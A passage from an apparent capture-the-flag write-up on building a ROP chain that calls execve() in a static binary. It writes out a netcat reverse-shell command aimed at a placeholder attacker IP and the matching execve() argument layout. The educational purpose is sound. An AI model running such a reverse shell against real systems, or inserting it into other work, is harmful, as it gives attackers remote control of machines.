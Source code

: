 the idea is still the same, however the execution is different, instead of shellcoding, we will ROP instead.&#x20;

what the above shellcode does is equivalent to the following command in linux terminal:

```bash
/bin/nc /bin/nc <attacker_ip> 1337 -e /bin/sh
```

{% hint style="info" %}
the port used by the shellcode I linked above uses 1337 while what I used in this challenge is 9001
{% endhint %}

this would quite be trivial or easy to do if we have `system()` as we just pass the string to it. However the static binary doesn't have that symbol. Instead we have to manually craft it into `execve()`

according to the manual `execve()` takes 3 parameters&#x20;

<figure><img src="../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

I would however, retype it as `execve(char *, char *[], char *[])` to make it more intuitive as it is a pointer to an array containing the parameters or environment variables you wish to pass to the executable.

which means to execute the reverse shell payload, we would need to prepare our arguments such that when calling it would be:&#x20;

```c
execve("/bin/nc" , {"/bin/nc","ip","9001","-e","/bin/sh"}, {})
```
